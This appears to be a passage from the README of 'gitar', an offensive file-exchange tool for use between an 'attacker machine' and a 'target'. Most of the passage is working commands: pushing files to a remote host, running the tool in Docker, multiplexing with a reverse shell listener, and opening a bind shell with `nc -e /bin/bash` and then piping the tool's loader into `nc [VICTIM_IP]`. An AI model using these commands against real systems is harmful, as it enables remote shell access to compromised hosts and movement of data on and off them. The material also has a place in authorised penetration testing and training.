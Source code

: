 ## Bidirectional exchange

You can also use `push` and `pull` shortcuts from attacker machine, after shortcuts have been loaded on target. It does not require addtional requirements on both machines. To do so it is recommended to load `alias` (put them in your `~/[SHELL]rc`) and launch gitar as follow:
```shell
gtrclean
gitar -bidi
```

On another attacker terminal window you can now push file to remote:
```shell
gtrbidi #to load gitar shortcut
push [FILENAME]

#[...] when your exchange is done
gtrclean 
```

***Notes:*** It will push files on remote within the directory where the `source` command occurs

### 🐋 Container and bidirectional exchange
```shell
BIDIR=$(mktemp -d);docker run -it --rm --cap-drop=all --cap-add=dac_override --net host --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" -v "$BIDIR:$BIDIR" ariary/gitar -bidi -bd $BIDIR
```

Then on attacker machine load shortcut:
```shell
gtrbidi.docker
```

### Limits
* Only work for file (does not work for `pullr` and `pushr`)
* Increase considerably the number of http requests on target

## Multiplexing & Port forwarding
> ***- Why?**
> - To expose my http file exchange server + reverse shell listener on the same port


It is useful when paired with a tunnel to localhost *(as with free version you often have only 1 port/tunnel at a time)*






## Load shortcut directly in your bind shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you bindshell [🎶](#tldr---and-listen-music)**
